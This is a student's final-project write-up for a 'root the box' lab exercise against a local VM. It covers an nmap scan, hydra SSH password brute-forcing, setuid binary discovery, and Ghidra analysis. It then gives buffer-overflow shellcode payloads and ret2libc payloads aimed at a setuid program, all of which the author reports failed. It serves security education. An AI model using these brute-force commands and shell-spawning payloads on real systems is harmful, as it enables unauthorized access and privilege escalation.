




# COMP 352 Final Project
**ROOT THE BOX** - Ethan Stoneman

## nmap scan
```
# Nmap 7.92 scan initiated Wed Nov 17 22:23:00 2021 as: nmap -sC -sV -p- -oN nmap/initial 192.168.101.137
Nmap scan report for 192.168.101.137
Host is up (0.00018s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
4321/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
13337/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:7b:27:7f:a3:6f:6b:af:23:e6:20:6d:44:69:0c:12 (RSA)
|   256 87:55:5a:6f:f9:1b:3e:41:5c:12:ca:13:03:11:33:e0 (ECDSA)
|_  256 5c:84:56:47:31:f6:78:89:5d:f1:ab:ea:e3:da:56:0d (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 17 22:23:15 2021 -- 1 IP address (1 host up) scanned in 14.67 seconds
```

## brute-force ssh server with username 'user'
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://192.168.101.137:13337
```
> Password found: hjchoo

### found odd text file in home directory of user: peda-session-badcopy.txt
```
break /home/administrator/badcopy F21.c:36
```

## Find badly written code on server
```bash
find / -type f -executable -perm -4000 -name '*badcopy*' 2>/dev/null
```

## Find name of vulnerable function

### Version 1
```bash
readelf -s ./badcopy
```
> function name = filecopy

### Version 2
### I downloaded a copy of 'badcopy' to my kali VM
```bash
# on my machine
sudo service ssh start
# on server
scp /opt/badcopy/badcopy user@192.168.100.214:~/final
# on my machine
sudo service ssh stop
```
## Open in ghidra

```bash
/usr/share/ghidraRun/ghidra
```

> Found user-created function, filecopy

#### Still in ghidra, I found the vulnerable section of source code. I will be exploiting strcpy via buffer overflow
```
  strcpy(s2,argv[2]); # argv[2] being the dest file

  #  strcpy(s1,argv[1]); # artv[2] being the  src file
  #  printf("You are copying ");
  #  printf(argv[1]);
  #  printf(" to ");
  #  printf(argv[2]);
```

## Back on 192.168.101.137

#### I realized that the function copies contents of one file to another, so I created two files in /tmp to test expected behavior of program
```bash
touch /tmp/src.txt && touch /tmp/dest.txt
```

### Buffer Overflow Attempt
## I found the base pointer overflow point by running program as intended
```bash
gdb-peda$ b filecopy
gdb-peda$ r /tmp/src.txt /tmp/dest.txt
gdb-peda$ n
gdb-peda$ p &s2		# 0xbffff504
gdb-peda$ p &s1		# 0xbffff544
gdb-peda$ p $ebp	# 0xbffff598
gdb-peda$ p/d 0xbffff598 - 0xbffff544 # 84 or 0x54
```
#### My overflow needs to start 84 + 4 bytes to overflow the return address (88 bytes in)

#### The function stack frame must contain shellcode and the address where the shellcode resides. I have found shellcode in the peda files included in user's home directory. I simply copy + pasted the shellcode into a text file on my Kali VM for future reference

```bash
less ~/peda/lib/shellcode.py
```
### Found the following:
```
"\x31\xc0"               # 0x00000000:     xor eax,eax
"\x50"                   # 0x00000002:     push eax
"\x68\x2f\x2f\x73\x68"   # 0x00000003:     push dword 0x68732f2f ; //sh
"\x68\x2f\x62\x69\x6e"   # 0x00000008:     push dword 0x6e69622f ; /bin
"\x89\xe3"               # 0x0000000D:     mov ebx,esp
"\x31\xc9"               # 0x0000000F:     xor ecx,ecx
"\x89\xca"               # 0x00000011:     mov edx,ecx
"\x6a\x0b"               # 0x00000013:     push byte +0xb
"\x58"                   # 0x00000015:     pop eax
"\xcd\x80"               # 0x00000016:     int 0x80 ; execve()

```

#### What I am trying to do is overflow the first function argument, s1, until the point where the return address resides ($ebp + 4). The address I will overwrite will be the address where shellcode lives on stack. For the purpose of eliminating inaccurate entry points, I will include a NOP sled before my shellcode such that the program 'slides' down the NOP sled and then executes the shellcode.

### I tested my hypothesis with payload inside gdb
```bash
$(python -c "print '\xaa'*88 + '\x9f\xf5\xff\xbf' + '\x90'*20 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80'") /tmp/dest.txt

$(python -c "print '\x90'*64 + '\x31\xc0\x50\x68\x2f\x73\x68\x68\x2f\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\x18\xf5\xff\xbf'") /tmp/dest.txt
```

## Findings
The address of ebp seemed to change as the size of my payload increased, however the change became constant and I could guess the correct address of ebp.

```bash
gdb badcopy

# inside gdb
b filecopy
r $(python -c "print '\xaa'*88 + '\x9f\xf5\xff\xbf' + '\x90'*20 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80'") /tmp/dest.txt
p $ebp # ebp = 0xbffff548
```

### Not working...
I include the correct value to overflow the stack by showing the difference (84 + 8 = 88), in bytes, between $ebp and the local variable 's1'. I overflow by that difference, plus 4 more bytes to reach the return address of the function's stack frame. Once I reach that point in the stack, I put a candidate address so that I can control program execution. Relative to the base frame pointer, ebp, I add 8 bytes and include that as my entry point. I have a NOP sled directly after my entry point so I allow for some mistakes in my calculation (however, I don't think there is one). It should continue executing until it reaches my shellcode. I get a segmentation fault every time I reach this point. I do not know why. Here are screenshots indicating that I have overflowed by the correct values.

### Attempt #1 Payload


### Contents of EBP post execution of attempt #1 <BOF_Explanation.png>


## More attempts
I even tried to put my malicious payload on stack at the start of the local variable s1 such that when I overflow, I overwrite the return address of the filecopy function with the starting address of s1.

### Finding address of s1
```bash
gdb-peda$ b filecopy
gdb-peda$ r $(python -c "print '\x90'*64 + '\x31\xc0\x50\x68\x2f\x73\x68\x68\x2f\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + 'AAAA'") /tmp/dest.txt
gdb-peda$ p &s1 # 0xbffff4f4
```

### Updated Payload


### Contents of EBP post execution of attempt #2 <EBP_PostExec.png>


## Return-To-LIBC Attempts

### Find addresses of system, exit, and /bin/sh to start

### Make environment variable with /bin/sh as value
```bash
export MYSHELL=/bin/sh
```

### In gdb:
```bash
gdb-peda$ p system  # 0xb7e42db0
gdb-peda$ p exit  # 0xb7e369e0
gdb-peda$ searchmem /bin/sh # libc=0xb7f63b2b, gdb-env=bfffff02 
```

#### When running this exploit in the shell environemnt (not in gdb), it is useful to make a C program that outputs the address of my newly created environment variable, MYSHELL

```c
#include <stdio.h>

int main()
{

  char* shell = (char*) getenv("MYSHELL");

  if (shell) {
    printf("\tValue:\t%s\n", shell);
    printf("\tAddres:\t%x\n", (unsigned int) shell);
  }

  return 0;
}
```
> This outputs "0xbffffefd"

#### My overflow needs to start 84 + 4 bytes to overflow the return address (88 bytes in) with the address of system() followed by exit() followed by "/bin/sh"

### Construct payload (all versions of /bin/sh)
```bash
$(python -c "print '\x90'*88 + '\xb0\x2d\xe4\xb7' + '\xe0\x69\xe3\xb7' + '\x02\xff\xff\xbf'") /tmp/dest.txt
$(python -c "print '\x90'*88 + '\xb0\x2d\xe4\xb7' + '\xe0\x69\xe3\xb7' + '\x2b\x3b\xf6\xb7'") /tmp/dest.txt
$(python -c "print '\x90'*88 + '\xb0\x2d\xe4\xb7' + '\xe0\x69\xe3\xb7' + '\xfd\xfe\xff\xbf'") /tmp/dest.txt
```

### Not working again...
I include the correct value to overflow the stack by showing the difference, in bytes, between $ebp and the local variable 's1'. I overflow by that difference, plus 4 more bytes to reach the return address of the function's stack frame. Once I reach that point in the stack, I put the address of the system function included by libc. I then place the address of the exit function included by libc with the idea that when the shell is exited, it exits the 'badcopy' program as well. Last but not least, I put the function argument to the system call. I have tried all versions of /bin/sh and none of them are working. I get a segmentation fault every time I reach this point. I do not know why. Here are screenshots indicating that I have overflowed by the correct values. I also verified that all addresses of system, exit, and /bin/sh are represented little-endian as well as having the correct contents.

## Screenshots

### Payload


### Contents of EBP post execution


## Summary
I have tried everything I could to get this working and I am getting the same failures. I feel like I have shown that I understand these vulnerabilities enough through this write-up, however the execution of my attacks did not succeed.